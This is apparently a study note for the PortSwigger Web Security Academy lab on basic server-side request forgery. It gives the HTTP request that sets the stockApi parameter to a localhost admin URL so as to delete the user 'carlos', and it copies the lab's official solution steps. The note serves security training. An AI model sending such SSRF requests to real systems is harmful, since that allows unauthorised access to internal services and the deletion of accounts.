 ### **Server-side request forgery (SSRF)**

https://portswigger.net/web-security/ssrf



#### Basic SSRF against the local server

> This lab has a stock check feature which fetches data from an internal system.
>
> To solve the lab, change the stock check URL to access the admin interface at http://localhost/admin and delete the user carlos. 

exploit

```http
POST /product/stock HTTP/1.1
Host: 0a36000903386661c0065cbd006200b5.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 54

stockApi=http://localhost/admin/delete?username=carlos
```

<div class="component-solution is-expandable expanded">
            <h4>Solution<svg xmlns="http://www.w3.org/2000/svg" width="18" height="9" viewBox="0 0 18 9"><polygon points="17 -0.01 9 7.01 1 -0.01 0 1.09 9 8.99 18 1.09 17 -0.01"></polygon></svg></h4>
            <div>
                <ol>
                    <li>
                        Browse to <code>/admin</code> and observe that you can't directly access the admin page.
                    </li>
                    <li>
                        Visit a product, click "Check stock", intercept the request in Burp Suite, and send it to Burp Repeater.
                    </li>
                    <li>
                        Change the URL in the <code>stockApi</code> parameter to <code>http://localhost/admin</code>. This should display the administration interface.
                    </li>
                    <li>
                        <p>
                            Read the HTML to identify the URL to delete the target user, which is:
                        </p>
                        <code class="code-scrollable">http://localhost/admin/delete?username=carlos</code>
                    </li>
                    <li>
                        Submit this URL in the <code>stockApi</code> parameter, to deliver the SSRF attack.
                    </li>
                </ol>
            </div>
        </div>


